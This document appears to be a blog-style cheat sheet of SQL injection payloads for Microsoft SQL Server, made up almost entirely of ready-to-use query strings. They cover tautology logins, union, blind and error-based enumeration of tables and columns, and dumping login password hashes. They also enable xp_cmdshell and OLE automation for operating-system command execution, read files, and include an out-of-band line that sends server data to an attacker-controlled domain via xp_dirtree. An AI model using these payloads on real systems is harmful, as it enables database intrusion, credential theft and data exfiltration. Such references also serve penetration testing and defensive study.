 ```yaml
---
title: 'SQL Injection Cheat Sheet: MSSQL'
date: 2016-04-11 20:20:57
tags: MSSQL Injection
---
```



### Comments

```
/*
--
;%00
```
>Example:

```
SELECT * FROM Users WHERE username = '' OR 1=1 --' AND password = '';
SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3/*';
```

### Version

```
SELECT @@version;
SELECT @@VERSION LIKE '%2008%';
```
>Example:

```
True if MSSQL version is 2008.
SELECT * FROM Users WHERE id = '1' AND @@VERSION LIKE '%2008%';
```
<!--more-->

### User details

```
SELECT user;
SELECT current_user;
SELECT SYSTEM_USER;
SELECT USER_NAME();
SELECT USER_NAME(2);
SELECT SUSER_SNAME();
SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;
SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);
```



### Database details

```
SELECT DB_NAME();
SELECT DB_NAME(5);
SELECT name FROM master..sysdatabases;
```


### Database credentials

```
SELECT name %2b ':'  %2b master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins;
```



### Server details

```
SELECT @@servername; SELECT host_name(); SELECT SERVERPROPERTY('productversion'), SERVERPROPERTY('productlevel');
```
>Examples:

```
SELECT SERVERPROPERTY('productversion'), SERVERPROPERTY('productlevel'), SERVERPROPERTY('edition');
```

### Table Names

```
UNION SELECT name FROM master..sysobjects WHERE xtype='U';    #Union
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'; #Blind
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables); #Error
AND 1 = (SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables)); # Error
```

### Columns Names

```
UNION SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename'); # Union
AND SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns > 'A'; # Blind
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns); # Error
AND 1 = (SELECT TOP 1 column_name FROM information_schema.columns WHERE column_name NOT IN(SELECT TOP 1 column_name FROM information_schema.columns)); # Error
```
>An easier method is available starting with MSSQL 2005 and higher. The XML function path() works as a concatenator, allowing the retrieval of all tables with 1 query.


```
SELECT table_name %2b ', ' FROM information_schema.tables FOR XML PATH('');
```




### No Quotes

```
SELECT * FROM Users WHERE username = CHAR(97) + CHAR(98) + CHAR(99);
ASCII(SUBSTRING(SELECT TOP 1 username FROM Users,1,1)) = 97;
ASCII(SUBSTRING(SELECT TOP 1 username FROM Users,1,1)) < 128;
```

### String Concatenation

```
SELECT CONCAT('a','a','a');
SELECT 'a' %2b 'b' %2b 'c' %2b 'd';
```

### Conditionals

```
IF 1=1 SELECT 'true' ELSE SELECT 'false';
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### Time-delay
```
WAITFOR DELAY 'time_to_pass';
WAITFOR TIME 'time_to_execute';
```
>Example:

```
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
```

### Enable Command Execution

```
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure reconfigure;
EXEC sp_configure 'xp_cmdshell', 1;
EXEC sp_configure reconfigure;
```


### Command Execution

```
EXEC master.dbo.xp_cmdshell 'cmd';
```


### Enable Alternative Command Execution

```
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure reconfigure;
EXEC sp_configure 'OLE Automation Procedures', 1;
EXEC sp_configure reconfigure;
```

### Alternative Command Execution

```
DECLARE @execmd INT;
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT;
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%system32cmd.exe /c';
```

### "RunAs"

```
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'password', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');
EXECUTE AS USER = 'FooUser';
```


### Read Files

```
BULK INSERT dbo.temp FROM 'c:foobar.txt' WITH ( ROWTERMINATOR='n' );
```

### Out-of-Band Retrieval

```
;declare @q varchar(200);set @q='\attacker.controlledserver'+(SELECT SUBSTRING(@@version,1,9))+'.malicious.com/foo'; exec master.dbo.xp_dirtree @q; --
```


### Substrings

```
SUBSTRING(table_name,1,1) FROM information_schema.tables = 'A';
ASCII(SUBSTRING(table_name,1,1)) FROM information_schema.tables > 96;
```

### Retrieve Nth Line

```
SELECT TOP 1 table_name FROM information_schema.tables;
SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables);
```
### SP_PASSWORD (Hiding Query)
```
SP_PASSWORD
```
>Example:

```
' AND 1=1--sp_password
```

### Stacked Queries

>Example:


```
' AND 1=0 INSERT INTO ([column1], [column2]) VALUES ('value1', 'value2');
```
